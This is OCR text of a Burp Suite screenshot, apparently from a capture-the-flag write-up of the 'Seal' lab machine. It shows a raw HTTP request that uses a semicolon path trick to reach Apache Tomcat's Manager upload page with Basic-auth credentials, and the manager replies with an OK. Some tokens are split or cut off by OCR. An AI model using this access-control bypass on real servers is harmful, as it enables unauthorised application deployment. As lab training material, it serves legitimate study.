 ![](../../../Screenshots/Pasted%20image%2020210921133230.png)

Burp Suite Community Edition v2021.8.2 - Temporary Project
Burp
Project Intruder Repeater
Dashboard Target Proxy
1 X 2 X 3 x 4 x
Window Help
Intruder
Repeater
Sequencer
Decoder
Comparer
Logger
Extender
Project options
User options
Learn
Send
Cancel
Request
Response
Pretty Raw
Hex Render in E
TM
THE
APACHE
SOFTWARE FOUNDATION
Pretty Raw Hex in E
1 POST /manager/;
:/html/upload; jsessionid=9C8E3AF9531 2ABD51FAECA000567BD28?org.apache.catalina.filters. CSRF_NO
NCE=607A1F803810092896F10EECAABAEF77 HTTP/1.1
2 Host: seal.htb
3 Cookie: JSESSIONID=9C8E3AF9531 2ABD51FAECA000567BD28
4 Content-Length: 1312
5 Cache-Control: max-age=0
6 Authorization: Basic dG9tY2F0Oj QyTXJIQmYqejh7Wile
7 Sec-Ch-Ua: "Not A; Brand"; v="99", "Chromium"; v="92"
8 Sec-Ch-Ua-Mobile: ?O
9 Upgrade-Insecure-Requests: 1
10 Origin: https://seal.htb
11 Content-Type: multipart/form-data; boundary=----WebKit FormBoundarykz6x4U9a OxgFnIFM
12 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebkit/537.36 (KHTML, like Gecko)
Chrome/92.0.4515.159 Safari/537.36
13 Accept:
text/html,application/xhtml+xml,application/xml;q=0.9, image/avif,image/webp, image/apng,*/*;q=
Tomcat Web Application Manager
Message: OK
